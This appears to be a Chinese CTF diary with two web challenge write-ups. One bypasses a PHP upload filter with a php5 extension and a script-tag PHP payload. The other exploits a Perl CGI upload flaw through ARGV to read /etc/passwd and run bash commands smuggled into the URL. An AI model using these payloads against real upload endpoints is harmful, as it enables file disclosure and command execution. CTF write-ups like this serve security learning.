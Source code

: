 1. 要检测上传内容是否有php代码(并非简单检测文件头的幻数), 经过测试, 只要文件中含有`<?php xxxx ?>`语句, 就会被拦截,. 
2. 要检测Content-Type, 不能上传裸php文件
3. 后缀方面, php5可绕过 

最后, 用php的另一种写法绕过, 这也是php的两种常规写法之一(另外一种 <?php xxx ?>已被拦截,) 可参考 https://www.php.net/manual/zh/language.basic-syntax.phpmode.php

对了, 从PHP7开始，这种写法`<script language="php"> </script>`，已经不支持了
**payload**

```php+HTML
文件名改php5
<script language="php">phpinfo()</script>

```

### csaw-ctf-2016-quals  i-got-id-200

perl的代码审计, 主要是命令注入,  给我看蒙了, 贴一段dalao的wp

> 打开题目发现有三个连接。file是上传，猜测存在上传漏洞，之后是参考大佬的WP，贴过来。
>
> 其中点击Files会跳转到/cgi-bin/file.pl文件中进行执行。这里可以上传任何一个文件，然后会在下方打印出内容。那么我们猜测后台逻辑大概是这样的。

```
perl use strict; use warnings; use CGI;

my $cgi= CGI->new; if ( $cgi->upload( 'file' ) ) { my $file= $cgi->param( 'file' ); while ( <$file> ) { print "$_"; } } 

```

> 那么，这里就存在一个可以利用的地方，param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的file变量中。而对于下面的读文件逻辑来说，如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。这样，我们的利用方法就出现了：在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，这样就可以读取任意文件了。

```
/cgi-bin/file.pl?/etc/passwd

```

> 将参数写成这个，读取到了系统的文件。/etc/passwd是用来存储登陆用户信息的,

[![img](https://github.com/gwyxjtu/my_CTF_diary/raw/a6f7260b54bd01682a2f1649b4eaabdb7d5dede6/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%E9%A2%98%E7%9B%AE/img/14.png)](https://github.com/gwyxjtu/my_CTF_diary/blob/a6f7260b54bd01682a2f1649b4eaabdb7d5dede6/攻防世界题目/img/14.png)

> 这里再次使用bash来读取文件目录。payload：

```
 /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| 

```

[![img](https://github.com/gwyxjtu/my_CTF_diary/raw/a6f7260b54bd01682a2f1649b4eaabdb7d5dede6/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%E9%A2%98%E7%9B%AE/img/15.png)](https://github.com/gwyxjtu/my_CTF_diary/blob/a6f7260b54bd01682a2f1649b4eaabdb7d5dede6/攻防世界题目/img/15.png)

> 最后读取flag文件，拿到flag.
